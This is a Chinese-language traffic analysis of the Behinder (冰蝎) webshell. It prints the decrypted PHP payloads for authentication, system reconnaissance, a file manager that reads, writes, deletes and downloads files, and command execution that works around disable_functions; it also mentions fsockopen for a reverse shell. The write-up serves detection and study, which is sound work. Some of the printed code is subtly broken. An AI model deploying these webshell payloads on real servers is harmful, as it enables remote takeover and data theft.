

# 冰蝎流量分析

## 冰蝎四个数据包

```
1、第一个数据包是关于一个key的登录认证包，key是该webshell密码32位md5的前16位，如果服务端返回了加密后的$result，那么认证成功，进入后续流程，这里$result这个关联数组包括服务器响应的状态码和$content(是一个加密的字符串).大致流程是将$result进行一个base64编码,然后再用json_encode进行编码，调用encrypt()函数使用$_SESSION['K']处理，并且首先判断是否加载了open_ssl插件，如果没有，就会将$result的的内容通过for循环使用$_SESSION['K']进行逐字符异或然后将异或运算的结果返回给冰蝎客户端
如果加载了open_ssl插件，就使用open_ssl_encrypt函数对$result的内容使用$_SESSION['K']进行AES128加密

openssl_encrypt($data, "AES128", $key);
```

```
2。第二个数据包返回了phpinfo()、当前的驱动列表以及当前目录和对应的系统相关信息
它这里使用ob_start()开启缓冲区，将phpinfo()执行的结果通过ob_get_contents()写入到缓冲区中,然后获取当前系统类型、驱动列表、当前目录等相关信息，并带上状态码封装到$result关联数组中通过和数据包1一样的处理方式返回给冰蝎客户端
```

```
3。第三个数据包是一个功能点,该数据包的mode字段传递了list参数,该功能点遍历了冰蝎文件当前所在目录的所有的文件和文件夹，将文件的名称、大小、最后修改时间，以及文件对应的权限，是文件还是目录进行一个汇总，并带上状态码封装到$result关联数组中通过和数据包一样的处理方式返回给冰蝎客户端
```

```
4。第四个数据包和第三个数据包的内容是一样的
```



第四个数据包和第三个数据包一样

冰蝎中反弹shell用到的那个函数?

@fsockopen

### 数据包1

```
<?php
@error_reporting(0);
session_start();
function main($content)
{
	$result = array();
	$result["status"] = base64_encode("success");
    $result["msg"] = base64_encode($content);
    $key = $_SESSION['k'];
    echo encrypt(json_encode($result),$key);
}

function encrypt($data,$key)
{
	if(!extension_loaded('openssl'))
    	{
    		for($i=0;$i<strlen($data);$i++) {
    			 $data[$i] = $data[$i]^$key[$i+1&15]; 
    			}
			return $data;
    	}
    else
    	{
    		return openssl_encrypt($data, "AES128", $key);
    	}
}$content="sTvp3pTCAfq9Xk1D8m6tZj1hCBtmD0mWrz3cfiUHyGYvuMU2Ok4z7T787KokjctBrGBwi9YMb9aNZQPI301e9pLScZRIm1zXYgJSxVUHkO1coafoSivMF5CiME9E4twFxg3WsXWyCrPeRgP7A3hlLQ2xIRBhHLrhJg8hFMvuChPR2BOs1dhyzVwFVhp31fZ8xk47B7xuMyxtX0jvKcd1LPZDGgPMaimd4QtK9q9fFENA6BphFsi47Xzmigq5EMOGlgSHtwa7tN4Cji5b7pSiuNVpAXcIX8aYLY2AWyu7sv5u6mhXGw9hpCTQZ39hF3D8vZJ5Pkr8bsS5hHKuvzvdCHXqypEVQfxIGPxakTm4Ie7FoAN5bkCDGfeimv0iFht5k43zEoEa1mJ8nwUM9ji3NtFIK9lw5Amo2m9DRq3lPc6mZNzYMKERQV";
main($content);
```

### 数据包2

```
<?php
@error_reporting(0);
session_start();
function main($whatever)
{
    //开启缓冲区
    ob_start();

    phpinfo();
    //将phpinfo()执行的内容写入到缓冲区文件中
    $info = ob_get_contents();
    ob_end_clean();
    $driveList = "";
    if (stristr(PHP_OS, "windows") || stristr(PHP_OS, "winnt")) {
        for ($i = 65; $i <= 90; $i++) {
            $drive = chr($i) . ':/';
            file_exists($drive) ? $driveList = $driveList . $drive . ";" : '';
        }
    } else {
        $driveList = "/";
    }
    $currentPath = getcwd();
    //echo "phpinfo=".$info."\n"."currentPath=".$currentPath."\n"."driveList=".$driveList;
    $osInfo = PHP_OS;
    $result = array("basicInfo" => base64_encode($info), "driveList" => base64_encode($driveList), "currentPath" => base64_encode($currentPath), "osInfo" => base64_encode($osInfo));
    //echo json_encode($result);
    session_start();
    $key = $_SESSION['k'];
    //echo json_encode($result);
    //echo openssl_encrypt(json_encode($result), "AES128", $key);
    echo encrypt(json_encode($result), $key);
}

function encrypt($data, $key)
{
    if (!extension_loaded('openssl')) {
        for ($i = 0; $i < strlen($data); $i++) {
            $data[$i] = $data[$i] ^ $key[$i + 1 & 15];
        }
        return $data;
    } else {
        return openssl_encrypt($data, "AES128", $key);
    }
}

$whatever = "NKVTqgAsfIDru6cbAhvgPg7FJWohjUqj5JL2zUvZJ8BXjhzyqSZT4l3jlem0pqivJcGx1CB4fnD7dhResWdEjUjChBmQkFR7iZckRPFInpnhos6kv5bAPiIKBtJAAsjEY8b1xcZSxw911RsIS3nvduRW4MOPakNegXQyKaqZ4gQCWgioyng9PweZAoiRk15Y4PXjX6yP3r8U2GRnCZzZyVxByvE4Gu4Xdghl0mk4r8RHXpboBjMlrgNtGOE2xxHudsoRpbPtFZ2oefJeWdnjGANqDHQ4lfCN7BkaCepBzq1Z3vQKzFjMBag2n0uMz8IpalUGf8734d6QIToIufaoE2guk17WSLPHhT0l2CnoQUhe5w9jodoT3PFPDUCdcjIbeH37LBVCYAQP7E0asqIKKkyz9w4hxs7ZTr03Y84cnvvjuvct9W9HfsuvVB4YFp3UNDbqHPhFrcTmNUBp3rpud2n4u1FHi516jBu13v3VncmnxNAvNiQo9MDJV6PGktPRJ932rhKTzs4QcX2H4rDTr706jkJVve47TrHX7Ls11jB75a9YJV0loiYTmqjBhk8miG0M8Me6mXCJKTnVRe7NhsDI6YPcM2f0X0iCv2nZnPmutjTG3olrME6U2VwojVA1lT7raBryPjN0UOkYvL3Ho";
main($whatever);
```

### 数据包3

```
<?php
@error_reporting(0);
session_start();
header('Content-Type: text/html; charset=UTF-8');

function getSafeStr($str)
{
    $s1 = iconv('utf-8', 'gbk//IGNORE', $str);
    $s0 = iconv('gbk', 'utf-8//IGNORE', $s1);
    if ($s0 == $str) {
        return $s0;
    } else {
        return iconv('gbk', 'utf-8//IGNORE', $str);
    }
}

function getgbkStr($str)
{
    $s0 = iconv('gbk', 'utf-8//IGNORE', $s1);
    $s1 = iconv('utf-8', 'gbk//IGNORE', $str);
    if ($s1 == $str) {
        return $s1;
    } else {
        return iconv('utf-8', 'gbk//IGNORE', $str);
    }
}

function delDir($dir)
{
    $files = array_diff(scandir($dir), array(
        '.',
        '..'
    ));
    foreach ($files as $file) {
        (is_dir("$dir/$file")) ? delTree("$dir/$file") : unlink("$dir/$file");
    }
    return rmdir($dir);
}

function main($mode, $path = ".", $content = "", $charset = "", $newpath = "")
{
    $path = getgbkStr($path);
    $result = array();
    if ($path == ".")
        $path = getcwd();
    switch ($mode) {
        case "list":
            $allFiles = scandir($path);
            $objArr = array();
            foreach ($allFiles as $fileName) {
                $fullPath = $path . $fileName;
                if (!function_exists("mb_convert_encoding")) {
                    $fileName = getSafeStr($fileName);
                } else {
                    $fileName = mb_convert_encoding($fileName, 'UTF-8', mb_detect_encoding($fileName, "UTF-8,GBK"));
                }
                $obj = array(
                    "name" => base64_encode($fileName),
                    "size" => base64_encode(filesize($fullPath)),
                    "lastModified" => base64_encode(date("Y-m-d H:i:s", filemtime($fullPath)))
                );
                $obj["perm"] = is_readable($fullPath) . "," . is_writable($fullPath) . "," . is_executable($fullPath);
                if (is_file($fullPath)) {
                    $obj["type"] = base64_encode("file");
                } else {
                    $obj["type"] = base64_encode("directory");
                }
                array_push($objArr, $obj);
            }
            $result["status"] = base64_encode("success");
            $result["msg"] = base64_encode(json_encode($objArr));
            echo encrypt(json_encode($result), $_SESSION['k']);
            break;
        case "show":
            $contents = file_get_contents($path);
            $result["status"] = base64_encode("success");
            if (function_exists("mb_convert_encoding")) {
                if ($charset == "") {
                    $charset = mb_detect_encoding($contents, array(
                        'GB2312',
                        'GBK',
                        'UTF-16',
                        'UCS-2',
                        'UTF-8',
                        'BIG5',
                        'ASCII'
                    ));
                }
                $result["msg"] = base64_encode(mb_convert_encoding($contents, "UTF-8", $charset));
            } else {
                if ($charset == "") {
                    $result["msg"] = base64_encode(getSafeStr($contents));
                } else {
                    $result["msg"] = base64_encode(iconv($charset, 'utf-8//IGNORE', $contents));
                }

            }
            $result = encrypt(json_encode($result), $_SESSION['k']);
            echo $result;
            break;
        case "download":
            if (!file_exists($path)) {
                header('HTTP/1.1 404 NOT FOUND');
            } else {
                $file = fopen($path, "rb");
                echo fread($file, filesize($path));
                fclose($file);
            }
            break;
        case "delete":
            if (is_file($path)) {
                if (unlink($path)) {
                    $result["status"] = base64_encode("success");
                    $result["msg"] = base64_encode($path . "删除成功");
                } else {
                    $result["status"] = base64_encode("fail");
                    $result["msg"] = base64_encode($path . "删除失败");
                }
            }
            if (is_dir($path)) {
                delDir($path);
                $result["status"] = base64_encode("success");
                $result["msg"] = base64_encode($path . "删除成功");
            }
            echo encrypt(json_encode($result), $_SESSION['k']);
            break;
        case "create":
            $file = fopen($path, "w");
            $content = base64_decode($content);
            fwrite($file, $content);
            fflush($file);
            fclose($file);
            if (file_exists($path) && filesize($path) == strlen($content)) {
                $result["status"] = base64_encode("success");
                $result["msg"] = base64_encode($path . "上传完成，远程文件大�?:" . $path . filesize($path));
            } else {
                $result["status"] = base64_encode("fail");
                $result["msg"] = base64_encode($path . "上传失败");
            }
            echo encrypt(json_encode($result), $_SESSION['k']);
            break;
        case "append":
            $file = fopen($path, "a+");
            $content = base64_decode($content);
            fwrite($file, $content);
            fclose($file);
            $result["status"] = base64_encode("success");
            $result["msg"] = base64_encode($path . "追加完成，远程文件大�?:" . $path . filesize($path));
            echo encrypt(json_encode($result), $_SESSION['k']);
            break;
        case "rename":
            if (rename($path, $newpath)) {
                $result["status"] = base64_encode("success");
                $result["msg"] = base64_encode("重命名完�?:" . $newpath);
            } else {
                $result["status"] = base64_encode("fail");
                $result["msg"] = base64_encode($path . "重命名失�?");
            }
            echo encrypt(json_encode($result), $_SESSION['k']);
            break;
        default:
            break;
    }
}

function encrypt($data, $key)
{
    if (!extension_loaded('openssl')) {
        for ($i = 0; $i < strlen($data); $i++) {
            $data[$i] = $data[$i] ^ $key[$i + 1 & 15];
        }
        return $data;
    } else {
        return openssl_encrypt($data, "AES128", $key);
    }
}

$mode = "list";
$path = "C:/phpStudy/WWW/diy/beHinderAnnalyse/";
main($mode, $path);
```

### 命令执行数据包

```
<?php
session_start();
@error_reporting(0);

function getSafeStr($str)
{
    $s1 = iconv('utf-8', 'gbk//IGNORE', $str);
    $s0 = iconv('gbk', 'utf-8//IGNORE', $s1);
    if ($s0 == $str) {
        return $s0;
    } else {
        return iconv('gbk', 'utf-8//IGNORE', $str);
    }
}

function main($cmd)
{
    @set_time_limit(0);
    @ignore_user_abort(1);
    @ini_set('max_execution_time', 0);
    $result = array();
    $PadtJn = @ini_get('disable_functions');
    if (!empty($PadtJn)) {
        $PadtJn = preg_replace('/[, ]+/', ',', $PadtJn);
        $PadtJn = explode(',', $PadtJn);
        $PadtJn = array_map('trim', $PadtJn);
    } else {
        $PadtJn = array();
    }
    $c = $cmd;
    if (FALSE !== strpos(strtolower(PHP_OS), 'win')) {
        $c = $c . " 2>&1\n";
    }
    $JueQDBH = 'is_callable';
    $Bvce = 'in_array';
    if ($JueQDBH('system') and !$Bvce('system', $PadtJn)) {
        ob_start();
        system($c);
        $kWJW = ob_get_contents();
        ob_end_clean();
    } else if ($JueQDBH('proc_open') and !$Bvce('proc_open', $PadtJn)) {
        $handle = proc_open($c, array(
            array(
                'pipe',
                'r'
            ),
            array(
                'pipe',
                'w'
            ),
            array(
                'pipe',
                'w'
            )
        ), $pipes);
        $kWJW = NULL;
        while (!feof($pipes[1])) {
            $kWJW .= fread($pipes[1], 1024);
        }
        @proc_close($handle);
    } else if ($JueQDBH('passthru') and !$Bvce('passthru', $PadtJn)) {
        ob_start();
        passthru($c);
        $kWJW = ob_get_contents();
        ob_end_clean();
    } else if ($JueQDBH('shell_exec') and !$Bvce('shell_exec', $PadtJn)) {
        $kWJW = shell_exec($c);
    } else if ($JueQDBH('exec') and !$Bvce('exec', $PadtJn)) {
        $kWJW = array();
        exec($c, $kWJW);
        $kWJW = join(chr(10), $kWJW) . chr(10);
    } else if ($JueQDBH('exec') and !$Bvce('popen', $PadtJn)) {
        $fp = popen($c, 'r');
        $kWJW = NULL;
        if (is_resource($fp)) {
            while (!feof($fp)) {
                $kWJW .= fread($fp, 1024);
            }
        }
        @pclose($fp);
    } else {
        $kWJW = 0;
        $result["status"] = base64_encode("fail");
        $result["msg"] = base64_encode("none of proc_open/passthru/shell_exec/exec/exec is available");
        $key = $_SESSION['k'];
        echo encrypt(json_encode($result), $key);
        return;

    }
    $result["status"] = base64_encode("success");
    $result["msg"] = base64_encode(getSafeStr($kWJW));
    echo encrypt(json_encode($result), $_SESSION['k']);
}

function encrypt($data, $key)
{
    if (!extension_loaded('openssl')) {
        for ($i = 0; $i < strlen($data); $i++) {
            $data[$i] = $data[$i] ^ $key[$i + 1 & 15];
        }
        return $data;
    } else {
        return openssl_encrypt($data, "AES128", $key);
    }
}

$cmd = "whoami";
main($cmd);
```

